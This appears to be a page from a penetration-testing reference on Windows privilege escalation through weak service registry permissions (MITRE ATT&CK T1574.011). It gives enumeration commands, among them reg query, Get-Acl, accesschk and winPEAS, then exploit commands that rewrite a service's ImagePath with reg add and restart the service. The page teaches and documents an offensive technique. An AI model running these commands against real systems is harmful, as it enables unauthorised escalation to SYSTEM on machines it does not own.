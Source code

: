```yaml
---
description: >-
  MITRE ATT&CK™ Hijack Execution Flow - Services Registry Permissions Weakness -
  Technique T1574.011
---
```


# Weak Registry Permissions

## Theory

By hijacking the Registry entries utilized by services, attackers can run their malicious payloads. Attackers may use weaknesses in registry permissions to divert from the initially stated executable to one they control upon Service start, allowing them to execute their unauthorized malware.

## Practice

An attacker can leverage this misconfiguration to modify the ImagePath of service with the path of the custom malicious executable that will give an escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

{% tabs %}
{% tab title="Enumerate" %}
We can check our permissions over services registry using one of the following methods:

#### CMD

```powershell
#Get the binary paths of the services
reg query hklm\System\CurrentControlSet\Services /s /v imagepath

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a
```

#### Powershell

```powershell
#With PowerShell
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\<ServiceName> | fl
```

#### AccessChk

Alternativly, we can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.

```powershell
#List rights for authenticated users on registry
accesschk64.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on specific service registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services\<Name>
```

#### winPEAS

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
To change the path of th binary

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}
